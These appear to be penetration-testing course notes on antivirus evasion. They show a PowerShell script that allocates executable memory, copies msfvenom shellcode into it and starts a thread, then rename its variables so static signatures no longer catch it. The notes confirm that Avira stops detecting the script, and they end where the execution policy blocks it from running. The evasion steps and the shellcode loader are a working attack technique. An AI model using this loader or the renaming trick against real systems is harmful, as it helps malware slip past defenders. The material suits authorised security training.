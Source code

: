 Next, we are going to verify the detection rate of our PowerShell script. Our preferred choice would be Antiscan.Me, but sadly, it does not support _ps1_ format, so we have to resort to VirusTotal.
![[Pasted image 20231025150147.png]]
+ According to the results of the VirusTotal scan, _28_ of the _59_ AV products flagged our script as malicious, including Avira. This is not as promising as expected, so we need to somewhat circumvent the AV signature logic

As mentioned, scripts are just interpreted text files. They are not easily fingerprinted like binary files, which have a more structured data format
+ In order to catch malicious scripts, AV vendors often rely on static string signatures related to meaningful code portions, such as variables or function names

To bypass this detection logic, let's give the variables of the previous script more generic names.
``` powershell
$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
+ We have updated our script by changing the _Win32_ hard-coded class name for the _Add-Type_ cmdlet to _iWin32_. Similarly, we have renamed _sc_ and _winFunc_ to _var1_ and _var2_, respectively

Once we save the PowerShell script as **bypass.ps1** and transfer it over the target Windows 11 client, we can run a Quick Scan to verify that our attack vector is undetected
+ To run the scan, we'll click on the _Security_ option on the left hand menu, select _Virus Scans_, and then click on _Scan_ under the _Quick Scan_ option
+ **NOTE**: To get sense of the detection rate, we could have uploaded the modified bypass to VirusTotal as well. However, as we learned earlier, this could jeopardize our penetration test as our sample could be analyzed and detected by the more powerful cloud-based machine learning engines.

Once Avira has scanned our script on our Windows 11 machine, it indicates our script is not malicious.
![[Pasted image 20231025150412.png]]

Since the msfvenom payload is for x86, we are going to launch the x86 version of PowerShell, named _Windows PowerShell (x86)_, as depicted in the image below.
![[Pasted image 20231025150432.png]]

Let's run **bypass.ps1** and analyze the output
```
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
+ Unfortunately, when we attempt to run our malicious script, we are presented with an error that references the _Execution Policies_ of our system, which appear to prevent our script from running.